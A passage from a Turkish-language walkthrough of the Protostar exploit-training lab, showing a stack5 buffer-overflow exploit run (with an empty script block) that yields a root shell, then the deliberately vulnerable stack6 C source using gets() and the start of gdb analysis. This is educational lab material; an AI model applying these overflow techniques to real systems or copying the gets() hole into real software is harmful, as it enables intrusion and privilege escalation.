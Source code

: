 ```python
```
Şimdi bu kodu input olarak vermemiz lazım, bunu yaparken direk çalıştırısak stack5.py programı işini bitip çıkacak ama stack5 komut çalıştıramadan kapanmış olacak, bunun için cat komutu ekleyerek bunu atlatıyoruz. cat komutuna parametre vermeden çalıştırısak verlen inputu 2 kere basar.
```bash
user@protostar:/tmp$ (python stack5.py ; cat)| /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```
Böylece bu adımı da tamamlamış olduk. Bu aşamayı daha farklı yöntemlerle çözebilirdik ancak onlara ileride değiniriz.

## Stack 6
Kaynak kod:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{

  getpath();

}
```
Bu aşamada main fonksiyonda sadece getpath fonksiyonu çağırılmış. Bu fonksiyonun içinde ise bizden bir path istiyor ve ardından fonksiyonun return adresini `__builtin_return_address(0)` fonksiyonu ile alıp `ret` isimli değişkene atıyor. İf bloğunda bu değişken ile `0xbf000000` değerini and işlemine sokuyor. eğer sonuç `0xbf000000` ise programdan çıkıyor.Aksi durumda ise ekrana path'i yazdırıyor. Burada yapılan and işleminde eğer bizim return adresimiz 0xbf ile başlıyor ise sonuç true döneceği için bunu atlatmamız lazım. Gdb üzerinden programa ayrılam memory bölümlerini görelim. Bunun için proc map kullanacağız. bkz.[proc map](https://stackoverflow.com/questions/6814217/what-is-a-proc-map) 
```bash
(gdb) break main
Breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
(gdb) r
Starting program: /opt/protostar/bin/stack6 

Breakpoint 1, main (argc=1, argv=0xbffff714) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
```